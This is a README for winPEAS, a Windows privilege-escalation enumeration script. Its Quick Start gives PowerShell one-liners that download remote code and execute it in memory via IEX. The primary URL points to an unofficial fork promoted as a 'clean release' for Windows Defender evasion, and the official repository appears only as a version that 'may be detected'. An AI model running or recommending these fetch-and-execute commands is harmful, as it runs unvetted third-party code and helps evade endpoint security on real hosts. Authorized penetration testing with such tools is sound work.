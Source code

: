 # Windows Privilege Escalation Awesome Script (.ps1)

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)**

## Mantainer

The official **maintainer of this script is [RandolphConley](https://github.com/RandolphConley)**.

## Quick Start

Download the **[latest releas from here](https://github.com/peass-ng/PEASS-ng/releases/latest)**.

```bash
# Get latest clean release (Windows Defender evasion)
$url = "https://raw.githubusercontent.com/moscowchill/PEASS-ng/main/winPEAS/winPEASps1/winPEAS.ps1"

# Run and display output only
powershell "IEX(New-Object Net.WebClient).downloadString('$url')"

# Run and save output to file
powershell "IEX(New-Object Net.WebClient).downloadString('$url') | Tee-Object -FilePath winpeas_output.txt"

# Run and save output while displaying in real-time
powershell "IEX(New-Object Net.WebClient).downloadString('$url') *>&1 | Tee-Object -FilePath winpeas_output.txt"

# Download script, run, and save output (for later reading without re-running)
Invoke-WebRequest -Uri "$url" -OutFile winPEAS.ps1
.\winPEAS.ps1 | Tee-Object -FilePath winpeas_output.txt

# Original version (may be detected)
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

